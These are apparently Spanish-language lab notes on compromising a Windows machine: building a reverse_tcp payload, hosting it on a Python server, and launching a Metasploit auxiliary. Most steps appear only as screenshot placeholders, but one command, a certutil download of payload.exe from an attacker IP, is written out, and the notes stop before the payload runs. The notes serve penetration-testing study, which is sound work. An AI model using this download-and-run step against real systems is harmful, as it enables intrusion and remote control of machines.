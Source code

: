  Vamos a explotar una vulnerabilidad en los archivos de windows.

Creamos un payload de reverse_tcp
![[Pasted image 20240311191710.png]]

Creamos un servidor con python para poder descargar el fichero en la maquina victima
![[Pasted image 20240311191857.png]]

Una vez habilitado el servidor de correo ya nos podremos descargar los payloads, para ello vamos a la maquina victima y ejecutamos el siguiente comando
certutil -urlcache -f http://10.10.24.3/payload.exe/payload.exe
![[Pasted image 20240311192311.png]]

Como podemos ver el archivo se ha descargado correctamente
![[Pasted image 20240311192422.png]]

Antes de ejecutar el payload en la maquina victima ejecutaremos el siguiente auxiliar de metasploit
![[Pasted image 20240311192734.png]]
![[Pasted image 20240311193128.png]]



